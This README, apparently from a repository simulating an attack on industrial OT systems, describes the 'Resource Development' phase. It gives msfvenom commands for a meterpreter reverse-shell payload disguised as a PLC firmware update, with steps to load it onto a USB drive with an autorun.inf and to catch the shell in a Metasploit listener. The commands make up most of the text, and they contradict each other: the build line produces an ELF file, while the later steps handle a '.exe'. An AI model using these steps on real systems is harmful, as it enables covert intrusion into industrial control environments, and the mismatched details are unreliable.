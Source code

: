 # Resource Development

In this phase, the attacker develops a malicious program to be delivered via a USB thumb drive. The USB will be disguised as a legitimate firmware update for the target OT system, obtained through the information gathered during the **Reconnaissance** phase.

- **MITRE ATT&CK Technique**: [T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/)

## Objective

The goal is to craft a malicious executable that will run automatically when inserted into the target OT system, allowing the attacker to gain control or disrupt operations.

## Steps to Execute Resource Development

### 1. Create a Malicious Payload Using `msfvenom`

The malicious program can be generated using **Metasploit**’s `msfvenom` tool. This payload will be disguised as a firmware update and executed when inserted into the OT system.

#### Command to Generate a Payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o firmware_update.elf
```

- LHOST: IP address of the attacker's machine where the reverse shell will connect.
- LPORT: Port to listen for the reverse shell connection.
- -f exe: Specifies the format of the output file as a Windows executable.
- firmware_update.exe: The name of the malicious file disguised as a firmware update.


### 2. Load the Payload onto a USB Thumb Drive
Once the malicious executable is created, it needs to be placed on a USB thumb drive:

- Insert the USB drive into the attacker's machine

- Copy the malicious payload onto the drive:
```
cp firmware_update.exe /media/usb-drive/
```
- Rename the file to something that looks legitimate, such as:
```
mv /media/usb-drive/firmware_update.exe /media/usb-drive/PLC_Firmware_Update.exe
```

### 3. Configure Autorun (Optional)
For systems that still support autorun (e.g., legacy Windows-based OT workstations), you can create an autorun.inf file to automatically execute the malicious file when the USB drive is inserted:

- Create an autorun.inf file on the USB drive:
```
echo "[autorun]" > /media/usb-drive/autorun.inf
echo "open=PLC_Firmware_Update.exe" >> /media/usb-drive/autorun.inf
```
- Save and safely eject the USB drive.

### 4. Test the Malicious Payload
Test the payload to ensure it works as expected by running the PLC_Firmware_Update.exe on a virtual machine or test system. You can listen for the reverse shell on the attacker's machine using Metasploit:

#### Set up a Metasploit Listener:
```
msfconsole
use exploit/multi/handler
payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.115
set LPORT 4444
exploit
```

![](https://drive.google.com/uc?export=view&id=11_a6WHpQE2eY5qpEH0qKMKmtl_KOW0MT)

When the payload is executed, the attacker will gain a reverse shell into the system.

![](https://drive.google.com/uc?export=view&id=1sdt-z1I3P1AjoJnpeIBrIBQfXoRurdCe)
## Next Steps
Once the malicious USB drive is prepared, it will be delivered to the target via social engineering in the Initial Access phase.

## Summary
In the Resource Development (T1587.001) phase, the attacker creates a malicious program that will be loaded onto a USB thumb drive, disguised as a legitimate firmware update. This payload is designed to provide the attacker with access to the OT system when inserted and executed by the target.


```
This `README.md` outlines how the attacker prepares the malicious payload and USB drive during the **Resource Development** phase of the attack.
```
